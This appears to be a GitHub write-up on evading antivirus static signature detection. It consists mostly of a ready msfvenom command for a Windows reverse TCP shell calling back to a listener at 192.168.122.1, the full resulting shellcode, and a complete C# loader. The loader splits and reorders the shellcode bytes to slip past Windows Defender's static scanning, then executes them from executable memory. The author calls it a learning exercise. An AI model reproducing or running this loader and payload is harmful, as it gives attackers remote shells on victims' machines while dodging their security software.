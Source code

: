 # Antivirus Evasion - Part 1

Antivirus Software uses couple of techniques for code detection namely:

- Signature Static Scanning
- Behaiour Monitoring
- Run-time analysis
- AI detection and many other tricks.

## Bypassing Signature Static Scanning

We can change some byte to bypass static scanning. Original idea was showed by [ired teams](https://www.ired.team/offensive-security/defense-evasion/evading-windows-defender-using-classic-c-shellcode-launcher-with-1-byte-change) but this, as stated by them, this trick soon became obselete since windows does detect the shellcode statically.

#### Steps

- Generate msf shellcode using normal procedure.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.122.1 LPORT=80 -f csharp
```
Shellcode : 
```text
byte[] buf = new byte[324] {
0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,
0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,
0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52,
0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x01,0xd1,
0x51,0x8b,0x59,0x20,0x01,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,
0x01,0xd6,0x31,0xff,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf6,0x03,
0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,
0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,
0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,
0x8d,0x5d,0x68,0x33,0x32,0x00,0x00,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,
0x77,0x26,0x07,0xff,0xd5,0xb8,0x90,0x01,0x00,0x00,0x29,0xc4,0x54,0x50,0x68,
0x29,0x80,0x6b,0x00,0xff,0xd5,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,
0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x05,0x68,0xc0,0xa8,0x7a,0x01,0x68,
0x02,0x00,0x00,0x50,0x89,0xe6,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,
0xff,0xd5,0x85,0xc0,0x74,0x0c,0xff,0x4e,0x08,0x75,0xec,0x68,0xf0,0xb5,0xa2,
0x56,0xff,0xd5,0x68,0x63,0x6d,0x64,0x00,0x89,0xe3,0x57,0x57,0x57,0x31,0xf6,
0x6a,0x12,0x59,0x56,0xe2,0xfd,0x66,0xc7,0x44,0x24,0x3c,0x01,0x01,0x8d,0x44,
0x24,0x10,0xc6,0x00,0x44,0x54,0x50,0x56,0x56,0x56,0x46,0x56,0x4e,0x56,0x56,
0x53,0x56,0x68,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x89,0xe0,0x4e,0x56,0x46,0xff,
0x30,0x68,0x08,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,0xa6,
0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,
0x47,0x13,0x72,0x6f,0x6a,0x00,0x53,0xff,0xd5 };
```
- Performed various changes to shellcode to avoid static shellcode detection. Althought the below code wont pass run time analysis of defender but it does bypass latest static based signature detection. Again, I could have used something else but main purpose was to code stuff to lean c# and windows also :)

Code:
```cs
using System;
using System.Runtime.InteropServices;

namespace ConsoleApp1
{
    class Program
    {
        [DllImport("kernel32")]
        private static extern IntPtr VirtualAlloc(UInt32 lpAddress, UInt32 dWsize, UInt32 flAllocationType, UInt32 flProtect);

        [DllImport("kernel32")]
        private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dWsize, IntPtr lpStartAddress, IntPtr lpParameter, UInt32 dwCreationFlags, IntPtr lpThradId);

        [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliSeconds);

        private static UInt32 MEM_COMMIT = 0x1000;
        private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
        static void Main(string[] args)
        {
            byte[] buf = new byte[] {0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,
                0x30,0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,
                0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,
                0x8b,0x4c,0x11,0x78,0xe3,0x48,0x01,0xd1,0x51,0x8b,0x59,0x20,0x01,0xd3,0x8b,0x49,0x18,0xe3,0x3a,
                0x49,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xff,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf6,0x03,
                0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,0x0c,0x4b,0x8b,0x58,
                0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff};

            byte[] buff5 = new byte[] {
                0x54,0x68,0x4c,0x77,0x26,0x07,0xff,0xd5,0xb8,0x90,0x01,0x00,0x00,0x29,0xc4,0x54,0x50,0x68,0x29,
                0x80,0x6b,0x00,0xff,0xd5,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0x0f,0xdf,0xe0,0xff,
                0xd5,0x97,0x6a,0x05,0x68,0xc0,0xa8,0x7a,0x01,0x68,0x02,0x00,0x00,0x50,0x89,0xe6,0x6a,0x10,0x56 };
            
            byte[] buff4 = new byte[] { 0xb5,0xa2,0x56,0xff,0xd5,0x68,0x63,0x6d,0x64,0x00,0x89,0xe3,0x57,0x57,
                0x57,0x31,0xf6,0x6a,0x12,0x59,0x56,0xe2,0xfd,0x66,0xc7,0x44,0x24,0x3c,0x01,0x01,0x8d,0x44,0x24,
                0x10,0xc6,0x00,0x44,0x54,0x50,0x56,0x56,0x56,0x46,0x56,0x4e,0x56,0x56,0x53,0x56,0x68,0x79,0xcc,
                0x3f,0x86,0xff,0xd5,0x89,0xe0,0x4e,0x56,0x46,0xff,0x30,0x68,0x08,0x87,0x1d,0x60,0xff,0xd5,0xbb,
                0xf0,0xb5,0xa2,0x56,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,
                0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x53,0xff,0xd5 };

            byte[] buff2 = new byte[] { 0x57, 0x68, 0x99, 0xa5, 0x74, 0x61, 0xff, 0xd5, 0x85, 0xc0, 0x74, 0x0c, 0xff, 0x4e, 0x08, 0x75, 0xec, 0x68, 0xf0 };
            byte[] buff3 = new byte[] { 0xe0, 0x5f, 0x5f, 0x5a, 0x8b, 0x12, 0xeb, 0x8d, 0x5d, 0x68, 0x33, 0x32, 0x00, 0x00, 0x68, 0x77, 0x73, 0x32, 0x5f };

            IntPtr tmp =IntPtr.Zero;

            IntPtr address = VirtualAlloc(0, 324, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            Marshal.Copy(buf, 0, address, buf.Length);
            Marshal.Copy(buff3, 0, (IntPtr)((UInt32)address+buf.Length*sizeof(byte)), buff3.Length);
            Marshal.Copy(buff5, 0,(IntPtr)((UInt32)address+((buf.Length + buff3.Length)*sizeof(byte))), buff5.Length);
            Marshal.Copy(buff2, 0,(IntPtr)((UInt32)address + ((buf.Length + buff3.Length+buff5.Length) * sizeof(byte))), buff2.Length);
            Marshal.Copy(buff4, 0, (IntPtr)((UInt32)address + ((buf.Length + buff3.Length + buff5.Length+buff2.Length) * sizeof(byte))), buff4.Length);

            IntPtr theadHandle = CreateThread(0, 0, address, tmp, 0, tmp);
            WaitForSingleObject(theadHandle, 0xFFFFFFFF);
        }
    }
}
```
(The above code is for 32 bit. It would show overflow if ran in 64 bit since its uses UInt32)

### Reference
[Ired Team](https://www.ired.team/offensive-security/defense-evasion/evading-windows-defender-using-classic-c-shellcode-launcher-with-1-byte-change)
